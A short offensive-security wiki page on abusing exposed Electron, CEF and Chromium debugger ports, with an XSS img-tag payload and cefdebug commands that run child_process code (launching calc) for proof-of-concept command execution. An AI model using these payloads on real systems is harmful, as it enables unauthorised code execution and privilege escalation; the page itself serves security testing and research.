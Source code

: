 # electron/CEF/chromium debugger abuse

If you find any process with **electron, cef or chromium debugger running** and listening to a port you should try to make the **debugger execute arbitrary commands**.  
Abusing this behaviour you **could be able to escalate privileges**.

The abuse of this vulnerability remotely could be as easy as injecting via XSS this line of JS:

```markup
<img src="http://localhost:40000/json/new/?javascript:require('child_process').spawnSync('calc.exe')">
```

But obviously the exploitation will be **much easier locally**, as you can use a tool such as: [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

List of resources to pwn electorn apps: [https://github.com/doyensec/awesome-electronjs-hacking](https://github.com/doyensec/awesome-electronjs-hacking)

## References

* [https://www.youtube.com/watch?v=iwR746pfTEc&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)

